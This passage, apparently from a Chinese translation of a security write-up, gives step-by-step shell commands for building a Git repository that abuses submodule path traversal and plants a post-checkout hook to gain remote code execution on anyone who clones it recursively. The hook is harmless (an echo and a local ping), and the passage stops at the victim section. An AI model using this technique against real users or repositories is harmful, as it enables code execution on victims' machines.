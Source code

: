 2、通过我们的目录遍历，寻找子模块创建所需的文件夹：

```
mkdir -p fakegit/modules
```

3、添加两个子模块（其中的内容不重要，只需要权限设置为公开/可复制）：

```
git submodule add https://github.com/staaldraad/repository.git submod
git submodule add https://github.com/staaldraad/repository.git aaa
```

4、从.git/modules/submod移动伪造子模块的Git仓库：

```
mv .git/modules/submod fakegit/modules/submod
```

5、在伪造Git中，创建我们的钩子，需要是一个有效的Bash脚本：

```
cat &gt; fakegit/modules/submod/hooks/post-checkout &lt;&lt;EOF
#!/bin/sh

echo "PWNED"
ping -c 3 127.0.0.1

exit 0
EOF

chmod +x fakegit/modules/submod/hooks/post-checkout
```

6、通过将“submod”更改为“../../fakegit/modules/submod”，将目录遍历添加到.gitmodules中：

```
sed -i '0,/submod/`{`s/"submod/"../../fakegit/modules/submod/`}`' .gitmodules
```

7、我们还需要更新子模块.git文件中的gitdir路径，从而使其指向我们的新位置。Git在构建工作树期间会使用该路径，如果我们不进行这一更改，就无法创建我们的提交。原因在于，我们在将其移动到新的伪装位置时，删除了$GIT_DIR/modules/submod。具体来说，我们要将gitdir从../.git/modules/submod修改为../fakegit/modules/submod。

```
sed -i 's/.git/fakegit/' submod/.git
```

8、添加、提交并推送：

```
git add .
git commit -m "woot"
git push origin master
```

### <a class="reference-link" name="4.2%20%E5%8F%97%E5%AE%B3%E8%80%85%E7%94%A8%E6%88%B7"></a>4.2 受害者用户

当受害者用户复制仓库并使用—recurse子模块时，我们将会得到远程代码执行：
